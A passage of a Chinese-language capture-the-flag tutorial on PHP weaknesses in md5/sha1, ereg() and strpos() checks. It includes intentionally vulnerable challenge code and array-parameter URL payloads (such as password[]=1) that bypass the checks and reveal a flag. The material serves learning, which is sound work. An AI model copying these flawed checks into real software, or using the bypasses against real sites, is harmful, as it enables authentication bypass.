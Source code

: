 e.g.

```
<?php
error_reporting(0);
$flag = 'flag{FlagIsHere}';
if (isset($_GET['username']) and isset($_GET['password'])) {
    if ($_GET['username'] == $_GET['password'])
        print 'Your password can not be your username.';
    else if (md5($_GET['username']) === sha1($_GET['password']))
        die($flag);
    else
        print 'Invalid password';
}
?>
  
http://127.0.0.1/ctf.php?username[]=1&password[]=2
```

## ereg()和strpos()

ereg()函数：字符串正则匹配。

strpos() 函数：查找字符串在另一字符串中第一次出现的位置。

注释：strpos() 函数对大小写敏感。

两个函数都是处理字符串的函数；

这时就可以利用数组来绕过；

```
<?php
    $a = '.....';
    if (ereg ("^[a-zA-Z0-9]+$", $a) === false){  
        echo "You password must be alphanumeric\n"; 
        }
    $b = '123hhh';
    if (strpos ($b, 'hh') !== false){
        die("flag"); 
    }
?>
  
You password must be alphanumeric
flag
```

e.g.

数组 ereg是处理字符串的，传入数组后返回NULL，NULL和 FALSE，是不恒等（===）的，绕过第一个if；而strpos也是处理字符串的，传入数组后返回NULL，NULL!==FALSE，条件成立，拿到flag；

```
<?php
	error_reporting(0);
	$flag = 'flag{FlagIsHere}';
	if (isset ($_GET['password'])) {  
	    if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)  
	        echo 'You password must be alphanumeric';  
	    else if (strpos ($_GET['password'], '--') !== FALSE)  
	        die($flag);  
	    else  
	        echo 'Invalid password';  
	}  
?>
  
http://127.0.0.1/ctf.php?password[]=1
```
